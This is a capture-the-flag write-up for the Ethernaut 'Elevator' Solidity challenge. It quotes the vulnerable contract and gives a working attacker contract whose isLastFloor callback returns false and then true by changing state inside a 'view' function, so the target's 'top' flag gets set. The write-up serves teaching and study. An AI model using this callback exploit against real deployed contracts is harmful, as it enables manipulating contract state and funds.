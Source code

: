 # Elevator

> This elevator won't let you reach the top of your building. Right?

> Things that might help:
> * Sometimes solidity is not good at keeping promises.
> * This Elevator expects to be used from a Building

```solidity
pragma solidity ^0.4.18;

interface Building {
  function isLastFloor(uint) view public returns (bool);
}

contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

This one gave me a bit of trouble, although the game lists it as easier than challenges 5, 6 and 7.

The idea here is: the first `if` needs to get a `false` from the `isLastFloor` function, but the second needs to get `true`.

Wait a minute: `isLastFloor` is a `view` function, which means that:

> Functions can be declared view in which case they promise not to modify the state.

How can we possibly make it return a different value while receiving the same argument if `isLastFloor` cannot modify state?

The answer is intuitive: we can't! There must be a way to modify state, even in `view` functions.

So I deployed this contract in Remix, setting `victim` to our instance's address:

```solidity
pragma solidity ^0.4.18;

contract Elevator {
  function goTo(uint _floor) public;
}

contract Caller {
    Elevator k;
    bool called;

    function isLastFloor(uint) public view returns (bool) {
        if(!called) {
            called = true;
            return false;
        } else {
            return true;
        }
    }

    function Caller(address victim) public {
        k = Elevator(victim);
    }

    function attack() public {
        called = false;
        k.goTo(1);
    }
}
```

The idea is simple: 
1. We deploy the Caller contract;
2. We call `attack`, which calls `goTo`. `goTo` calls `isLastFloor` and by then `called` is false, thus returning `false` and changing `called` to `true`;
3. `goTo` then calls `isLastFloor` again. Since `called` is `true`, now it returns `true`, setting our `top` correctly.

Let's check it then:

```javascript
await contract.top()
```

To my surprise it worked! Apparently Solidity does not enforce the write restriction on `view` functions, which may be used in many evil ways.
